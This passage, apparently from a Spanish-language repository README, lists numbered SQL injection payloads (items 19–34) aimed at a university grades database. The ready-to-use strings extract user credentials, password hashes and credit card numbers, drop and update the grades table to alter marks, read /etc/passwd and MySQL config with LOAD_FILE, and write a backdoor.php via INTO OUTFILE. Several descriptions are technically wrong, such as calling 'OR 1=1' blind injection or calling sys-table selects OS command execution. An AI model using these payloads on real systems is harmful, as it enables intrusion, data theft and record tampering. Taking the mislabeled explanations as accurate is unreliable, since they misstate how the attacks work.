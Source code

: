 
19. **Recuperar nombres de tablas del esquema de la base de datos**:
    - Inyección SQL: `' UNION SELECT table_name, NULL, NULL, NULL, NULL FROM information_schema.tables WHERE table_schema = 'umanizales'; --`

20. **Recuperar usuarios de la base de datos y sus privilegios**:
    - Inyección SQL: `' UNION SELECT user, host, password, grant_priv, NULL FROM mysql.user; --`

21. **Obtener información sobre la estructura de la base de datos**:
    - Inyección SQL: `' UNION SELECT table_schema, table_name, column_name, NULL, NULL FROM information_schema.columns; --`

22. **Realizar un ataque de tipo time-based para inferir información sensible**:
    - Inyección SQL: `'; IF(SLEEP(5),1,0); --`

23. **Intentar enumerar los usuarios del sistema**:
    - Inyección SQL: `'; SELECT * FROM `sys`.`sys_users`; --`

24. **Realizar una inyección SQL ciega para extraer datos de forma indirecta**:
    - Inyección SQL: `' OR 1=1; --`

25. **Recuperar información confidencial almacenada en otras tablas**:
    - Inyección SQL: `' UNION SELECT credit_card_number, expiration_date, NULL, NULL, NULL FROM customer_data; --`

26. **Intentar ejecutar comandos del sistema operativo para obtener información sensible**:
    - Inyección SQL: `'; SELECT * FROM `sys`.`sys_processlist`; --`

-------------


27. **Recuperar información de otra tabla relacionada**:
    - Inyección SQL: `' UNION SELECT username, password, NULL, NULL, NULL FROM users; --`

28. **Eliminar datos de la tabla**:
    - Inyección SQL: `'; DROP TABLE notas; --`

29. **Actualizar datos en la tabla**:
    - Inyección SQL: `'; UPDATE notas SET corte1 = 5.0 WHERE estudiante_codigo = '2022001'; --`

30. **Insertar datos maliciosos en la tabla**:
    - Inyección SQL: `'; INSERT INTO notas (estudiante_codigo, asignatura, corte1, corte2, corte3) VALUES ('2022001', 'SQL Injection', 5.0, 5.0, 5.0); --`

31. **Recuperar información del sistema operativo**:
    - Inyección SQL: `'; SELECT LOAD_FILE('/etc/passwd'); --` (Nota: esto es específico de MySQL y depende de la configuración del servidor)

32. **Obtener el hash de la contraseña del usuario**:
    - Inyección SQL: `' UNION SELECT 'admin', password_hash, NULL, NULL, NULL FROM usuarios WHERE username = 'admin'; --`

33. **Ejecutar comandos arbitrarios del sistema operativo**:
    - Inyección SQL: `'; SELECT * FROM `sys`.`sys_config` INTO OUTFILE '/var/www/html/backdoor.php'; --`

34. **Recuperar información del archivo de configuración de la base de datos**:
    - Inyección SQL: `'; SELECT LOAD_FILE('/etc/mysql/my.cnf'); --` (Nota: depende de la configuración del servidor)
